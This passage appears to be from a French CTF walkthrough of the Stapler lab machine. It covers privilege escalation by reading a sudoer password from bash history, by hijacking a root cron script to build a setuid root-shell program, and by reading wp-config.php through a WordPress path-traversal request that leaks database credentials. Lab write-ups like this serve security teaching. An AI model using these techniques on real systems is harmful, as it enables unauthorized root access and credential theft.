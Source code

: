 # Autres Méthodes 

## L'élévation de privililège bis: Choisir le bon user

En regardant dans `/etc/group` on remarque que le user `peter` est sudoer donc
on cherche des informations le concernant.

```
cat /etc/group | grep sudo
grep -R . | grep -i peter
JKanode/.bash_history:sshpass -p JZQuyIN5 peter@localhost
#sshpass -p JZQuyIN5 peter@stapler
ssh peter@stapler
password: JZQuyIN5
sudo su
```

## L'élévation de privilège ter: Utiliser un cronjob

> Cron est le gestionnaire des tâches devant être exécutées à un moment précis. Chaque utilisateur a un fichier crontab, lui permettant d'indiquer les actions à effectuer régulièrement. 

On cherche des cronjobs writables éventuels éxécutés par root pour setup un setuid.
```
find / -name *cron* > /tmp/output
cat /usr/local/sbin/cron-logrotate.sh
#! /bin/bash
gcc -o /tmp/xx /tmp/xx.c
chmod 777 /tmp/xx
chmod u+s /tmp/xx
```

`cat /tmp/xx.c`
```C
int main(void) {
setgid(0); setuid(0);
execl("/bin/sh","sh",0); }
```

Il faut attendre assez longtemps, et lorsque que le cronjob est déclenché il
suffit d'éxécuter `./xx` et on devient root

\pagebreak

## Planter un reverse shell depuis le wordpress

On réutilise le même exploit pour aller chercher le fichier suivant: \
[https://stapler:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=123456789&short=rnd&term=rnd&thumb=../wp-config.php](https://stapler:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=123456789&short=rnd&term=rnd&thumb=../wp-config.php)

```php
<?php
/**
 * The base configurations of the WordPress.
 */

define('DB_USER', 'root');
define('DB_PASSWORD', 'plbkac');
define('DB_HOST', 'localhost');
define('DB_CHARSET', 'utf8mb4');
```
